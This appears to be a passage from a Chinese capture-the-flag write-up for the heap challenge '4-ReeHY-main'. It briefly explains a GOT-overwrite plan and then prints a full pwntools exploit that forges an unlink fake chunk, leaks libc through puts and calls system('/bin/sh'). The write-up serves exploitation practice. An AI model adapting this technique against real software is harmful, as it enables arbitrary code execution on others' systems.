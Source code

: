 ![49.png](https://i.loli.net/2019/08/06/OpDBR5yXVjL1TZd.png)

接着修改这里的指针为free.got，puts.got，atoi.got

![40.png](https://i.loli.net/2019/08/06/ytZ4jvogbdkLFDX.png)

编辑free.got为puts.plt，这样调用delete实际上就是puts出来，这里delete 被修改冲puts的那个指针，就会把puts.got中的内容泄漏，继而取得libc，接着修改atoi.got为system，接着输入/bin/sh就是调用system("/bin/sh")

![47.png](https://i.loli.net/2019/08/06/zAaG8MRoOI5Flmc.png)

完整EXP：

```python
from pwn import *
p = process("./4-ReeHY-main")
e = ELF("./4-ReeHY-main")
p.recv()
p.sendline("1")
libc = ELF("/libc64.so.6")


def creat(sz, cun, ct):
    p.sendlineafter("$ ", '1')
    p.sendlineafter('\n', str(sz))
    p.sendlineafter('\n', str(cun))
    p.sendlineafter('\n', ct)


def delete(cun):
    p.sendlineafter("$ ", '2')
    p.sendlineafter('\n', str(cun))


def edit(cun, ct):
    p.sendlineafter("$ ", '3')
    p.sendlineafter('\n', str(cun))
    p.sendafter('\n', ct)


creat(0x98, 1, 'a')
creat(0x88, 2, 'b')
creat(0x88, 3, 'b')
delete(-2)
creat(20, 4, p32(0x200) * 4)
fake_chunk = ''
fake_chunk += p64(0) + p64(0x91)
fake_chunk += p64(0x6020f0 - 0x18) + p64(0x6020f0 - 0x10)
fake_chunk += p64(0) * 2 * 7 + p64(0x90) + p64(0x90)
edit(1, fake_chunk)
delete(2)
payload = p64(0) * 3
payload += p64(e.got['free']) + p64(1)
payload += p64(e.got['puts']) + p64(1)
payload += p64(e.got['atoi']) + p64(1)
edit(1, payload)
edit(1, p64(e.plt['puts']))
creat(0x8, 4, 'a' * 7)
# context.log_level = 'debug'
delete(2)
libc_base = u64(p.recv(6) + '\x00\x00') - libc.symbols['puts']
system = libc_base + libc.symbols['system']
print hex(libc_base)
edit(3, p64(system))
p.sendlineafter("$ ", '/bin/sh\x00')
```